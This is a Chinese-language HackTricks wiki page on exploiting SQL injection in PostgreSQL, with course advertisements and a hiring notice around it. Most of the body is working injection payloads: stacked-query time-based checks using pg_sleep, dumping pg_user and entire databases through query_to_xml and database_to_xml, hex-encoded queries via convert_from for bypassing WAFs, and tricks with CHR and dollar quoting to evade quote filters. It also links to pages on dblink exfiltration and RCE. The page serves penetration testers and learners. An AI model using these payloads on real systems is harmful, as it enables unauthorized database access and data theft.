 # PostgreSQL 注入

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果你对 **黑客职业** 感兴趣并想要攻克不可攻克的目标 - **我们正在招聘！** (_需要流利的波兰语书写和口语能力_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**本页面旨在解释不同的技巧，帮助你利用在 PostgreSQL 数据库中发现的 SQL 注入，并补充你可以在** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) **上找到的技巧。**

## 网络交互 - 权限提升、端口扫描、NTLM 挑战响应泄露与数据外泄

**PostgreSQL 模块 `dblink`** 提供连接到其他 PostgreSQL 实例和执行 TCP 连接的能力。这些功能与 `COPY FROM` 功能结合，使得权限提升、端口扫描和 NTLM 挑战响应捕获等操作成为可能。有关执行这些攻击的详细方法，请查看如何 [执行这些攻击](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md)。

### **使用 dblink 和大对象的数据外泄示例**

你可以 [**阅读这个示例**](dblink-lo_import-data-exfiltration.md) 来查看一个 CTF 示例，**如何将数据加载到大对象中，然后在 `dblink_connect` 函数的用户名中外泄大对象的内容**。

## PostgreSQL 攻击：读/写、RCE、权限提升

查看如何从 PostgreSQL 破坏主机并提升权限：

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF 绕过

### PostgreSQL 字符串函数

操纵字符串可以帮助你 **绕过 WAF 或其他限制**。\
[**在此页面**](https://www.postgresqltutorial.com/postgresql-string-functions/)**你可以找到一些有用的字符串函数。**

### 堆叠查询

请记住，PostgreSQL 支持堆叠查询，但如果在期望仅返回 1 个响应时返回 2 个响应，许多应用程序会抛出错误。但是，你仍然可以通过时间注入滥用堆叠查询：
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML技巧

**query\_to\_xml**

此函数将以XML格式返回所有数据，仅在一个文件中。如果您想在一行中转储大量数据，这是理想的：
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

此函数将整个数据库以 XML 格式转储为 1 行（如果数据库非常大，请小心，因为您可能会导致 DoS 或甚至影响您自己的客户端）：
```sql
SELECT database_to_xml(true,true,'');
```
### 字符串以十六进制表示

如果您可以运行 **查询** 并将其 **放在字符串中**（例如使用 **`query_to_xml`** 函数）。 **您可以使用 convert\_from 将字符串作为十六进制传递，从而以这种方式绕过过滤器：**

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### 禁止的引号

如果无法在有效负载中使用引号，可以通过 `CHR` 来绕过这一点，适用于基本子句（_字符连接仅适用于基本查询，如 SELECT、INSERT、DELETE 等。它不适用于所有 SQL 语句_）：
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
或者使用 `$`。这两个查询返回相同的结果：
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果你对**黑客职业**感兴趣并想要攻克不可攻克的目标 - **我们正在招聘！**（_要求流利的波兰语书写和口语能力_）。

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
